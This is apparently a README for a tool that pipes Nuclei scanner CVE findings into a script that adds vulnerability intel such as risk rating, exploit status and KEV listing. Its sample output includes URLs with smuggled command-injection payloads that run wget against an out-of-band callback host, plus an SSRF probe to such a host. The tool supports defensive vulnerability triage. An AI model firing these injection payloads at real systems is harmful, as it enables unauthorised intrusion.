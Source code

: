 # nuclei-nvi
# Enriches nuclei CVE results with vulnerability intel from NVI platform - https://www.northinfosec.com/ 

Simple usage:

nuclei -target http://sample.nuclei-target.com --silent | python3  nuclei-nvi.py  

----------------------------------------

Template ID: CVE-2014-3206
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/backupmgt/localJob.php?session=fail;wget+http://cqqf5fng4vbb67d6ath09hcfohi51hmyx.oast.site;
Intel: NVI risk_rating => High | Public exploit => No_Known_exploit | Ransomware => no | kev => yes 

----------------------------------------

Template ID: CVE-2016-1555
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/boardDataWW.php
Intel: NVI risk_rating => Critical | Public exploit => poc | Ransomware => no | kev => yes 

----------------------------------------

Template ID: CVE-2017-9506
Category: http
Nuclei rating: medium
URL: http://sample.nuclei-target.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://cqqf5fng4vbb67d6ath059tkk51qewsbf.oast.site
Intel: NVI risk_rating => Critical | Public exploit => PoC | Ransomware => No | kev => Yes 

----------------------------------------

Template ID: CVE-2017-3506
Category: http
Nuclei rating: high
URL: http://sample.nuclei-target.com/wls-wsat/RegistrationRequesterPortType
Intel: NVI risk_rating => Critical | Public exploit => PoC | Ransomware => No | kev => Yes 

----------------------------------------

Template ID: CVE-2014-3206
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/backupmgt/pre_connect_check.php?auth_name=fail;wget+http://cqqf5fng4vbb67d6ath05dc5mwird8dcc.oast.site;
Intel: NVI risk_rating => High | Public exploit => No_Known_exploit | Ransomware => no | kev => yes 

----------------------------------------

Template ID: CVE-2018-16167
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/upload
Intel: NVI risk_rating => Critical | Public exploit => poc | Ransomware => no | kev => yes 

----------------------------------------

Template ID: CVE-2019-10758
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/checkValid
Intel: NVI risk_rating => Critical | Public exploit => PoC | Ransomware => No | kev => Yes 

----------------------------------------

Template ID: CVE-2019-2616
Category: http
Nuclei rating: high
URL: http://sample.nuclei-target.com/xmlpserver/ReportTemplateService.xls
Intel: NVI risk_rating => Critical | Public exploit => Weaponized | Ransomware => No | kev => Yes 

----------------------------------------


